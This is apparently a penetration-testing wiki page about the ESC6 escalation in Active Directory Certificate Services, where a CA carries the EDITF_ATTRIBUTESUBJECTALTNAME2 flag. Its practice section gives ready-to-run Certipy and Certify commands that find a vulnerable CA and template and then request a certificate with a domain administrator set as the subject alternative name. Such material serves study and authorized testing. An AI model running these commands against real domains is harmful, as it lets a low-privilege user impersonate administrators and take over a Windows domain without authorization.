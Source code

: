 # CA configuration

## Theory

In [their research papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin\_) found a domain escalation vector based on a dangerous CA setting (i.e. the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag). The escalation vector was dubbed [ESC6](https://posts.specterops.io/certified-pre-owned-d95910965cd2#2a56).

When the flag is set on the CA, templates configured for authentication (i.e. EKUs like Client Authentication, PKINIT Client Authentication, Smart Card Logon, Any Purpose (`OID 2.5.29.37.0`), or no EKU (`SubCA`)) and allowing low-priv users to enroll can be abused to authenticate as any other user/machine/admin.

{% hint style="success" %}
The default **User** template checks all the template requirements stated above.&#x20;

If the CA is configured with the  `EDITF_ATTRIBUTESUBJECTALTNAME2` flag (admins tend to enable that flag without knowing the security implications), and the **User** template is enabled (which is very often), any user can escalate to domain admin.
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate info about the CAs, including the "**User Specified SAN**" flag state which is an alias to the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.

```python
certipy 'domain.local'/'user':'password'@'domaincontroller' find | grep "User Specified SAN"
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}

{% hint style="success" %}
Certipy's `auto` mode can also be used to automatically abuse a misconfigured CA.
{% endhint %}

The same "find" command can be used to enumerate information regarding the certificate templates (EKUs allowing for authentication, allowing low-priv users to enroll, etc.).

```bash
certipy 'domain.local'/'user':'password'@'domaincontroller' find
```

Once the right template is found (i.e. the default User template), a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```bash
certipy 'domain.local'/'user':'password'@'ca_server' req -ca 'ca_name' -template 'certificate template' -alt 'domain admin'
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate info about the CAs, including the "**UserSpecifiedSAN**" flag state which refers to the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.

```batch
Certify.exe cas
```

If the flag is enabled on a CA, certify can then be used to find all enabled templates configured with EKUs allowing for authentication, and allowing low-priv users to enroll.

```batch
Certify.exe /enrolleeSuppliesSubject
Certify.exe /clientauth
```

Once the right template is found (i.e. the default **User** template), a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```batch
Certify.exe request /ca:'domain\ca' /template:"Certificate template" /altname:"admin"
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

{% embed url="https://www.keyfactor.com/blog/hidden-dangers-certificate-subject-alternative-names-sans" %}

{% embed url="https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6" %}
